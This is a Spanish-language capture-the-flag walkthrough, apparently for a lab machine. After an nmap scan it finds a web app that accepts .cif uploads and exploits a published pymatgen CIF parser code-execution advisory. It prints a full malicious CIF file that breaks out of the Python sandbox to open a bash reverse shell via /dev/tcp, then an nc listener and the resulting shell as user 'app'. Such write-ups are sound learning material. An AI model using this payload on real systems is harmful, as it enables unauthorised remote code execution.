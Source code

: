 ```
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 99.00 seconds
```

Vemos 2 puertos interesantes, uno que es en el `8000` un archivo llamado `database.db` el cual no nos interesa mucho ya que no hay nada dentro y otro en el puerto `5000` en la que esta alojada una pagina web.

Si le damos en dicha pagina a `registrarnos` ya que no tenemos ningun usuario, entraremos en un `dashboard` donde podremos subir un archivo, pero si nos fijamos solo nos permite subir archivos `.cif` por lo que vamos a investigar si hay alguna vulnerabilidad de dicho archivo.

## Intrusión (user app)

URL = [GitHub Vuln CIF File](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f)

Vemos que en el siguiente repositorio nos muestra que hay una vuilnerabilidad de ello y como aprovecharla, por lo que haremos lo siguiente.

Crearemos un archivo entorno al repositorio, pero con una reverse shell:

> exploit.cif

```cif
data_5yOhtAoR  
_audit_creation_date            2018-06-08  
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"  
  
loop_  
_parent_propagation_vector.id  
_parent_propagation_vector.kxkykz  
k1 [0 0 0]  
  
_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \ 'sh -i >& /dev/tcp/<IP>/<PORT> 0>&1\'");0,0,0'  
  

_space_group_magn.number_BNS  62.448  
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

Lo guardamos y lo subiremos a la pagina con el boton de `Upload`, una vez echo eso, veremos que el archivo se ha subido correctamente, por lo que nos pondremos a la escucha antes:

```shell
nc -lvnp <PORT>
```

Y ahora le daremos al boton de `View` para que se nos cree la `reverse shell`, una vez que le hayamos dado veremos lo siguiente si volvemos a donde teniamos la escucha:

```
listening on [any] 7777 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.11.38] 35828
sh: 0: can't access tty; job control turned off
$ whoami
app
```
